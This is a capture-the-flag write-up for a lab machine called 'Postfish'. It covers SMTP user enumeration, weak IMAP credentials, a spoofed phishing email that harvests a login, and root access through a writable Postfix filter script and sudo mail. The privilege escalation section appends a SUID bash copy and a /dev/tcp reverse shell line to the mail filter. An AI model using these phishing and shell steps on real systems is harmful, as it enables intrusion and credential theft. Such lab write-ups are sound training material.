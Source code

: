 # Postfish

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 14:08 +08
Nmap scan report for 192.168.183.137
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```

This box involves testing mail services. We have to add `postfish.off` to our `/etc/hosts` file to view the website on port 80.&#x20;

### Web Enumeration

The website looked rather static:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

There was a 'Team' page, and when viewed we get some names and roles:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Interesting.

### SMTP Enumeration --> Phishing Link

The website had nothing else to offer, so I went looking for exploits pertaining to the mail servers. I tested some usernames and departments like HR, and found HR existed on the server:

```
$ smtp-user-enum -M VRFY -u HR -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:15:41 2023 #########
192.168.183.137: HR exists
```

I tried some low hanging fruits, like logging in with `hr:hr` and `postfish:postfish`. Eventually, `sales:sales` worked on IMAP:

{% code overflow="wrap" %}
```
$ nc -nv 192.168.183.137 143
(UNKNOWN) [192.168.183.137] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
A1 LOGIN sales sales
A1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```
{% endcode %}

I was able to find one message present within the Inbox:

```
A1 STATUS INBOX (MESSAGES UNSEEN RECENT)
* STATUS INBOX (MESSAGES 1 RECENT 1 UNSEEN 1)
A1 OK Status completed (0.001 + 0.000 secs).
```

We can read this message:

{% code overflow="wrap" %}
```
A1 SELECT INBOX
A1 FETCH 1 body[text]
* 1 FETCH (FLAGS (\Seen \Recent) BODY[TEXT] {153}
Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
{% endcode %}

So there's some password reset links being sent out, and perhaps we can trick a user into clicking on our link. I used `swaks` to send an email to send emails:

{% code overflow="wrap" %}
```bash
$ swaks --to SALES@postfish.off --from IT@postfish.off --header "Subject:Password Reset" --body "Click here to reset your password! http://192.168.45.208/password" --server 192.168.183.137
```
{% endcode %}

The above doesn't work, so I used 'Brian Moore', which is the name of the user part of the Sales team based on the website. There are tons of username generators online based on a name:

```bash
$ python2 username.py -n 'brian moore' > usernames
$ sed -i s/$/@postfish.off/ usernames
```

Afterwards, we can test which user is present on the server:

```
$ smtp-user-enum -M VRFY -U usernames -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usernames
Target count ............. 1
Username count ........... 93
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:31:35 2023 #########
192.168.183.137: @postfish.off exists
192.168.183.137: brian.moore@postfish.off exists
######## Scan completed at Wed Jul 12 14:31:49 2023 #########
```

`brian.moore` exists, so let's send an email to him and start a listener port to see if he clicks on our link. `swaks` doesn't seem to work for some reason, so we can just use `nc`:

```
$ nc -vn 192.168.183.137 25

MAIL FROM: IT@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Hello, 

Reset password here. http://192.168.45.208/

.

QUIT
```

After the mail sends, we get a callback on our listener port with creds:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can use this password to `ssh` in as `brian.moore`:

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mail Disclaimer --> Filter Shell

I ran a `linpeas.sh` scan on the machine, and it found this interesting folder:

```
[+] Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Jul 12 06:42 /etc/postfix/disclaimer
```

It was a `bash` script:

```bash
brian.moore@postfish:~$ cat /etc/postfix/disclaimer
#!/bin/bash
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

$SENDMAIL "$@" <in.$$

exit $?
```

Users part of the `filter` group can write to this, and `brian.moore` is part of that group. I added this to the script:

```bash
cp /bin/bash /tmp
chmod u+s /tmp/bash
bash -i >& /dev/tcp/192.168.45.208/21 0>&1
```

This script is triggered by sending emails, so we can send another one to the machine without the phishing link to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Sudo Mail --> Root

This new user can execute `mail` using `sudo`:

```
filter@postfish:/var/spool/postfix$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

We can get a `root` shell using the commands from GTFOBins:

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>
